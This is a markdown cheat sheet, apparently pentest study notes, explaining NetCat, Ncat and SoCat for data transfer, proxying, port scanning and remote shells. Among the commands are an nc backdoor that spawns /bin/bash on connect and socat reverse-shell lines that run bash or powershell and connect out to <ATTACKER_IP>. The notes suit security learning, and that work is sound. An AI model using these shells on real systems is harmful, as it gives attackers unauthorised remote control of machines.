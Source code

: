 
### NetCat / Ncat

**NetCat** is a command-line utility available on Windows and Linux to read from and write to network connections.  
It offers a backend for other machines to connect to a machine.  
It is often used to create a backdoor to access a machine remotely.

NetCat can be used in multiple ways :
- data transfer
- relay
- port scanning
- reverse shell / backdoor
- chat

```shell
# start NetCat in listening mode on port 1234 (for a reverse shell for example)
nc -l -p 1234

# from another machine, open a connection to it (for chat for example)
nc <TARGET_IP> 1234

# start Netcat in listening mode and start a bash shell when a client connect
# -e specifies a program to start on connect, it is used a lot to create backdoors
nc -lnpv 1234 -e /bin/bash

# start NetCat as a proxy listening on port 1234 and redirecting to a target host/port
nc -l -p 1234 | nc <TARGET_HOST> <TARGET_PORT>

# use NetCat for scanning ports on a target machine
# -v is for verbose mode and -z for scanning mode (without sending data)
nc -v -z <TARGET_HOST> <START_PORT>-<END_PORT>
```

We can use the `rlwrap` tool (Readline Wrapper) to enhance the usability of the `nc` command.  
It adds command history navigation (with up/down arrows) and line editing :
```shell
rlwrap nc -lp 1234
```

**Ncat** is an enhancement of Netcat created by the Nmap project.  
It supports for example IPv6, and SSL encryption for the listener with the `--ssl` parameter :
```shell
ncat --ssl -lvnp 1234
```


### SoCat

**SoCat** is a "super NetCat" offering additional advanced features but with a more complex syntax.  
It adds SSL/TLS encryption (like NCat), more complex redirection, and more stable connections.  
SoCat essentially is a connector between two different points (port, keyboard, file...).

_Basic use of SoCat (equivalent to NetCat)_
```shell
# Reverse-shell : simple listening connection on a TCP port, equivalent to "nc -lvnp 443"
# It binds a listening port with the standard output (represented with a dash)
# Note that this type of listener can be connected to by SoCat but also by basic Netcat or Netcat with rlwrap
socat TCP-L:443 -

# from the target machine, connect to the above reverse shell
socat TCP:<ATTACKER_IP>:443 EXEC:powershell.exe,pipes    # Windows target ("pipes" forces Windows to use Linux-style I/O)
socat TCP:<ATTACKER_IP>:443 EXEC:"bash -li"              # Linux target

# Bind-shell : simple listening connection on the target machine
```